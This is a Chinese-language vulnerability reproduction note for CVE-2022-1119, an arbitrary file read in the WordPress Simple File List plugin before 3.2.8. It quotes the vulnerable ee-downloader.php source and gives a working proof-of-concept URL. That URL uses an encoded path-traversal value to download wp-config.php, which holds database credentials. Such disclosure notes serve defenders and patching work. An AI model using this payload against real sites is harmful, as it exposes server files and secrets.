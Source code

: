 # WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

```
WordPress Simple File List < 3.2.8
```

## 插件名

Simple File List

https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![image-20220706134725779](./images/202207061347857.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![image-20220706134750574](./images/202207061347645.png)